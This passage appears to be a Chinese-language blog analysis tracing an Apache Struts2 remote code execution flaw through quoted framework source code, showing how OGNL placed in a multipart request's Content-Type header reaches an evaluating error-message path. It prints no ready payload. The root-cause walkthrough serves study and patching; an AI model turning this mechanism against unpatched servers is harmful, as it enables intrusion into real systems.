     * Finds a localized text message for the given key, aTextName, in the specified resource
     * bundle.
     * </p>
     *
     * <p>
     * If a message is found, it will also be interpolated.  Anything within <code>${...}</code>
     * will be treated as an OGNL expression and evaluated as such.
     * </p>
     *
     * <p>
     * If a message is <b>not</b> found a WARN log will be logged.
     * </p>
     *
     * @param bundle         the bundle
     * @param aTextName      the key
     * @param locale         the locale
     * @param defaultMessage the default message to use if no message was found in the bundle
     * @param args           arguments for the message formatter.
     * @param valueStack     the OGNL value stack.
     * @return the localized text, or null if none can be found and no defaultMessage is provided
     */
    @Override
    public String findText(ResourceBundle bundle, String aTextName, Locale locale, String defaultMessage, Object[] args,
                           ValueStack valueStack) {
        try {
            reloadBundles(valueStack.getContext());

            String message = TextParseUtil.translateVariables(bundle.getString(aTextName), valueStack);
            MessageFormat mf = buildMessageFormat(message, locale);

            return formatWithNullDetection(mf, args);
        } catch (MissingResourceException ex) {
            if (devMode) {
                LOG.warn("Missing key [{}] in bundle [{}]!", aTextName, bundle);
            } else {
                LOG.debug("Missing key [{}] in bundle [{}]!", aTextName, bundle);
            }
        }

        GetDefaultMessageReturnArg result = getDefaultMessage(aTextName, locale, valueStack, args, defaultMessage);
        if (unableToFindTextForKey(result)) {
            LOG.warn("Unable to find text for key '{}' in ResourceBundles for locale '{}'", aTextName, locale);
        }
        return result != null ? result.message : null;
    }

```

  看到这里是不是懵逼了.我们一个个函数点进去看看,究竟都有些什么东西,但是限于篇幅,我就不全部把代码贴上来了,现在只放出一个关键函数的代码

```java

    /**
     * @return the default message.
     */
    protected GetDefaultMessageReturnArg getDefaultMessage(String key, Locale locale, ValueStack valueStack, Object[] args,
                                                                String defaultMessage) {
        GetDefaultMessageReturnArg result = null;
        boolean found = true;

        if (key != null) {
            String message = findDefaultText(key, locale);

            if (message == null) {
                message = defaultMessage;
                found = false; // not found in bundles
            }

            // defaultMessage may be null
            if (message != null) {
                MessageFormat mf = buildMessageFormat(TextParseUtil.translateVariables(message, valueStack), locale);

                String msg = formatWithNullDetection(mf, args);
                result = new GetDefaultMessageReturnArg(msg, found);
            }
        }

        return result;
    }

```

  还是使用上面的方式,一个个函数点进去看看,我们无需要对每个细节都要完全理解,但是要知道做了些什么,读者们可以通过函数名或者函数的逻辑来推断出来到底发生了什么事.继续往下探索,找到`translateVariables()` 的声明.
  
```java

    /**
     * Converts all instances of ${...}, and %{...} in <code>expression</code> to the value returned
     * by a call to {@link ValueStack#findValue(java.lang.String)}. If an item cannot
     * be found on the stack (null is returned), then the entire variable ${...} is not
     * displayed, just as if the item was on the stack but returned an empty string.
     *
     * @param expression an expression that hasn't yet been translated
     * @param stack value stack
     * @return the parsed expression
     */
    public static String translateVariables(String expression, ValueStack stack) {
        return translateVariables(new char[]{'$', '%'}, expression, stack, String.class, null).toString();
    }
    
```

  ??? ,这个函数居然是执行OGNL 表达式的.我们再一路往下找.

```java
    
    //  经过多个重载之后..
    
    /**
     * Converted object from variable translation.
     *
     * @param openChars open character array
     * @param expression expression string
     * @param stack value stack
     * @param asType as class type
     * @param evaluator value evaluator
     * @param maxLoopCount max loop count
     * @return Converted object from variable translation.
     */
    public static Object translateVariables(char[] openChars, String expression, final ValueStack stack, final Class asType, final ParsedValueEvaluator evaluator, int maxLoopCount) {

        ParsedValueEvaluator ognlEval = new ParsedValueEvaluator() {
            public Object evaluate(String parsedValue) {
                Object o = stack.findValue(parsedValue, asType);
                if (evaluator != null && o != null) {
                    o = evaluator.evaluate(o.toString());
                }
                return o;
            }
        };

        TextParser parser = ((Container)stack.getContext().get(ActionContext.CONTAINER)).getInstance(TextParser.class);

        return parser.evaluate(openChars, expression, ognlEval, maxLoopCount);  //  执行OGNL 表达式
    }

```

  现在可以确定,`TextParseUtil.translateVariables()` 可以执行OGNL 表达式.参数1 是OGNL 表达式字符串,参数2 是值栈.知道这点之后,回来阅读这里的代码

```java

    protected GetDefaultMessageReturnArg getDefaultMessage(String key, Locale locale, ValueStack valueStack, Object[] args,
                                                                String defaultMessage) {
        GetDefaultMessageReturnArg result = null;
        boolean found = true;

        if (key != null) {
            String message = findDefaultText(key, locale);

            if (message == null) {
                message = defaultMessage;
                found = false; // not found in bundles
            }

            // defaultMessage may be null
            if (message != null) {
                MessageFormat mf = buildMessageFormat(TextParseUtil.translateVariables(message, valueStack), locale);

```

  也就是说,getDefaultMessage() 函数的defaultMessage 参数是可以执行OGNL 表达式的,而且defaultMessage 是由findText() 传递过来的.咱们还是去查查Strust2 的官方文档一探究竟.Link :https://struts.apache.org/maven/struts2-core/apidocs/index.html



  官方文档竟然没有关于参数的介绍,那没关系,我们去找`LocalizedTextUtil.findText()`



  ??? .兄弟,这是几个意思?看来你这样要为难我小叮当啊.然后在谷歌百度胡乱搜了一下,结果找到了.



  好了,LocalizedTextUtil.findText() 的defaultMessage 参数既然可以执行OGNL 语句,那么我们再来看看Diff 的代码

```java

    for (LocalizedMessage error : multiWrapper.getErrors()) {
        if (validation != null) {
            validation.addActionError(LocalizedTextUtil.findText(error.getClazz(), error.getTextKey(), ActionContext.getContext().getLocale(), error.getDefaultMessage(), error.getArgs()));

```

  居然是把一个错误提示信息拿来做参数,来看看LocalizedMessage 和multiWrapper.getErrors() 是什么

```java

    HttpServletRequest request = (HttpServletRequest) ac.get(ServletActionContext.HTTP_REQUEST);

    if (!(request instanceof MultiPartRequestWrapper)) {  //  如果request 不是MultiPartRequestWrapper 的示例,那就继续往下执行
        if (LOG.isDebugEnabled()) {
            ActionProxy proxy = invocation.getProxy();
            LOG.debug(getTextMessage("struts.messages.bypass.request", new String[]{proxy.getNamespace(), proxy.getActionName()}));
        }

        return invocation.invoke();  //  执行下一个invocation
    }
    
    // ...
    
    MultiPartRequestWrapper multiWrapper = (MultiPartRequestWrapper) request;  //  获取Post Data 部分

    if (multiWrapper.hasErrors() && validation != null) {
        TextProvider textProvider = getTextProvider(action);
        for (LocalizedMessage error : multiWrapper.getErrors()) {

```

  看到这里,可能读者们开始迷惑了,当时我也一样,看到这个代码结果确实有些头晕,不知道自己看的代码究竟在哪一部分,这个时候,我们就应该去找一找架构图



  看完了架构图之后,估计读者会分化为两部分了:瞬间明白整体原理和越看越懵逼的,我当时看这个架构图的时候就是属于越看越懵逼的那种哈哈哈.Struts2 是AOP (面向切面编程,意思是数据一层一层往上来处理,RASP 就是这个原理)模型.每个Interceptor 都对应不同的功能.触发漏洞的地方是在FileUploadInterceptor ,FileUploadInterceptor 是需要MultiPartRequestWrapper (对应MultiPartRequest)处理过的请求头,那么我们去找一下Struts2 关于MultiPartRequest 的请求,看看是在哪个Interceptor 里面处理的.现在我们看看Struts2 的Interceptor 的默认配置文件.代码位置`core/src/main/resources/struts-default.xml` ,Link : https://github.com/apache/struts/blob/a4439376b806fa73f96f469315d51ad83591b796/core/src/main/resources/struts-default.xml

```xml

    <bean type="org.apache.struts2.dispatcher.multipart.MultiPartRequest" name="jakarta" class="org.apache.struts2.dispatcher.multipart.JakartaMultiPartRequest" scope="prototype"/>
    <bean type="org.apache.struts2.dispatcher.multipart.MultiPartRequest" name="jakarta-stream" class="org.apache.struts2.dispatcher.multipart.JakartaStreamMultiPartRequest" scope="prototype"/>

```

  原来MultiPartRequest 使用JakartaMultiPartRequest 和JakartaStreamMultiPartRequest 来做处理.那么现在看看MultiPartRequestWrapper 类的构造函数,Link :https://github.com/apache/struts/blob/6e96f11debc4fa52c65a12b28fea82b514b96abd/core/src/main/java/org/apache/struts2/dispatcher/multipart/MultiPartRequestWrapper.java

```java

    /**
     * Process file downloads and log any errors.
     *
     * @param multiPartRequest Our MultiPartRequest object
     * @param request Our HttpServletRequest object
     * @param saveDir Target directory for any files that we save
     * @param provider locale provider
     * @param disableRequestAttributeValueStackLookup disable the request attribute value stack lookup
     */
    public MultiPartRequestWrapper(MultiPartRequest multiPartRequest, HttpServletRequest request,
                                   String saveDir, LocaleProvider provider,
                                   boolean disableRequestAttributeValueStackLookup) {
        super(request, disableRequestAttributeValueStackLookup);
        errors = new ArrayList<>();
        multi = multiPartRequest;  //  multi 是初始化MultiPartRequestWrapper 传递进来的MultiPartRequest
        defaultLocale = provider.getLocale();
        setLocale(request);
        try {
            multi.parse(request, saveDir);  //  注意,解析request 请求头数据
            for (LocalizedMessage error : multi.getErrors()) {
                addError(error);
            }
        } catch (IOException e) {
            LOG.warn(e.getMessage(), e);
            addError(buildErrorMessage(e, new Object[] {e.getMessage()}));
        } 
    }

```

  我们来看看Struts2 的文件上传部分.Link :https://github.com/apache/struts/blob/6e96f11debc4fa52c65a12b28fea82b514b96abd/core/src/main/java/org/apache/struts2/dispatcher/filter/StrutsPrepareAndExecuteFilter.java

```java

    public void doFilter(ServletRequest req, ServletResponse res, FilterChain chain) throws IOException, ServletException {

        HttpServletRequest request = (HttpServletRequest) req;
        HttpServletResponse response = (HttpServletResponse) res;

        try {
            String uri = RequestUtils.getUri(request);
            if (excludedPatterns != null && prepare.isUrlExcluded(request, excludedPatterns)) {
                LOG.trace("Request {} is excluded from handling by Struts, passing request to other filters", uri);
                chain.doFilter(request, response);
            } else {
                LOG.trace("Checking if {} is a static resource", uri);
                boolean handled = execute.executeStaticResourceRequest(request, response);
                if (!handled) {
                    LOG.trace("Assuming uri {} as a normal action", uri);
                    prepare.setEncodingAndLocale(request, response);
                    prepare.createActionContext(request, response);
                    prepare.assignDispatcherToThread();
                    request = prepare.wrapRequest(request);  //  解析请求头
                    ActionMapping mapping = prepare.findActionMapping(request, response, true);
                    if (mapping == null) {
                        LOG.trace("Cannot find mapping for {}, passing to other filters", uri);
                        chain.doFilter(request, response);
                    } else {
                        LOG.trace("Found mapping {} for {}", mapping, uri);
                        execute.executeAction(request, response, mapping);
                    }
                }
            }
        } finally {
            prepare.cleanupRequest(request);
        }
    }
    
    public HttpServletRequest wrapRequest(HttpServletRequest oldRequest) throws ServletException {
        HttpServletRequest request = oldRequest;
        try {
            // Wrap request first, just in case it is multipart/form-data
            // parameters might not be accessible through before encoding (ww-1278)
            request = dispatcher.wrapRequest(request);  //  wrapRequest()
            ServletActionContext.setRequest(request);
        } catch (IOException e) {
            throw new ServletException("Could not wrap servlet request with MultipartRequestWrapper!", e);
        }
        return request;
    }
    
    public HttpServletRequest wrapRequest(HttpServletRequest request) throws IOException {
        // don't wrap more than once
        if (request instanceof StrutsRequestWrapper) {
            return request;
        }

        String content_type = request.getContentType();
        if (content_type != null && content_type.contains("multipart/form-data")) {  //  根据Content_Type 的内容来判断是否选择MultiPartRequestWrapper
            MultiPartRequest mpr = getMultiPartRequest();
            LocaleProvider provider = getContainer().getInstance(LocaleProvider.class);
            request = new MultiPartRequestWrapper(mpr, request, getSaveDir(), provider, disableRequestAttributeValueStackLookup);
        } else {
            request = new StrutsRequestWrapper(request, disableRequestAttributeValueStackLookup);
        }

        return request;
    }

```

  搞明白了Content-Type 为什么需要带上multipart/form-data 之后.再回过头来看漏洞描述,这个问题的触发点在JakartaStreamMultiPartRequest 这里.现在去找`JakartaStreamMultiPartRequest.parse()` 函数的实现代码.Link :https://github.com/apache/struts/blob/6e96f11debc4fa52c65a12b28fea82b514b96abd/core/src/main/java/org/apache/struts2/dispatcher/multipart/JakartaMultiPartRequest.java
  
```java

    public void parse(HttpServletRequest request, String saveDir) throws IOException {
        try {
            setLocale(request);
            processUpload(request, saveDir);  //  处理上传请求
        } catch (Exception e) {
            LOG.warn("Error occurred during parsing of multi part request", e);
            LocalizedMessage errorMessage = buildErrorMessage(e, new Object[]{});  //  保存错误消息
            if (!errors.contains(errorMessage)) {
                errors.add(errorMessage);
            }
        }
    }
    
```

  在此就不再往下分析了,最后会触发一个异常,让Content-Type 里面的值保存到errors 对象中

```java

    public abstract class AbstractMultiPartRequest implements MultiPartRequest {
    
        protected List<LocalizedMessage> errors = new ArrayList<>();
    
        public List<LocalizedMessage> getErrors() {  //  获取errors 的信息..
            return errors;
        }

```

  最后,我们回来看看patch 的代码

```java

    for (LocalizedMessage error : multiWrapper.getErrors()) {
        if (validation != null) {
            validation.addActionError(LocalizedTextUtil.findText(error.getClazz(), error.getTextKey(), ActionContext.getContext().getLocale(), error.getDefaultMessage(), error.getArgs()));

```

  此时,由于Content-Type 的值导致Struts2 的JakartaStreamMultiPartRequest 解析异常,异常信息保存在`multiWrapper.getErrors()` 里,`LocalizedMessage error` 里面的还带有Content-Type 的值.这个内容传递到了`LocalizedTextUtil.findText()` ,这个地方是可以执行OGNL 语句的.那么我们在Content-Type 里面插入了OGNL 语句之后,触发异常,让Content-Type 的值保存到异常信息传递给`LocalizedTextUtil.findText()`,`LocalizedTextUtil.findText()` 执行了我们注入的OGNL 语句,引发了远程代码执行.


## 结尾

  读代码时比较迷惘,可以尝试换一个地方从新来读;读代码时比较迷惘,可以尝试谷歌百度搜素一下其他人的分析和用法;读代码时比较迷惘,可以尝试看看官方文档;读代码时比较迷惘,可以尝试换个歌单听一听.**切记!不要烦躁**

